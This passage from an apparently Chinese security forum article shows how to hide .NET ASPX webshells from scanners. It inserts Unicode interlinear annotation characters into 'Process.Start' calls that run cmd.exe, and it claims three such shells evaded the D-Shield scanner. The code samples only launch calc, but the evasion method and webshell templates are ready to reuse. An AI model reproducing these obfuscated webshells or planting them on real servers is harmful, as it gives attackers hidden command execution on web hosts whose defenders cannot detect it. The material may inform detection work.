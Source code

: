 4.12 行间注解注释符
------------

行间标记注释符 `U+FFF9、U+0000FFF9`

```php
<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false" validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>
<script runat="server">
public void Page_load(){
    System.Diagnostics.Pro\uFFF9cess.Start("cmd.exe","/c calc");
    }
</script>
```

4.13 行间注释分隔符
------------

行间标记注释符 `U+FFFA、U+0000FFFA`

```php
<%@ Page Language="C#" ResponseEncoding="utf-8" trace="false" validateRequest="false" EnableViewStateMac="false" EnableViewState="true"%>
<script runat="server">
public void Page_load(){
    System.Diagnostics.Pro\uFFFAcess.Start("cmd.exe","/c calc");
    }
</script>
```

0X05 免杀效果
=========

笔者从第4小节挑选3个WebShell文件，对D盾均达到免杀效果

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-471f01ab9abbca44f4266b8eba0b13770202aeab.png)

0X06 结语
=======

相信通过本文介绍大家对.NET下的Unicode编码绕过有了初步的认知，由于Unicode通用性极强，所以其他语言诸如Java、PHP也会受其影响。下一篇将继续分享 .NET 免杀Trick，请大伙继续关注文章。另外文章涉及的PDF和Demo已打包发布在星球，欢迎对.NET安全关注和关心的同学加入我们，在这里能遇到有情有义的小伙伴，大家聚在一起做一件有意义的事。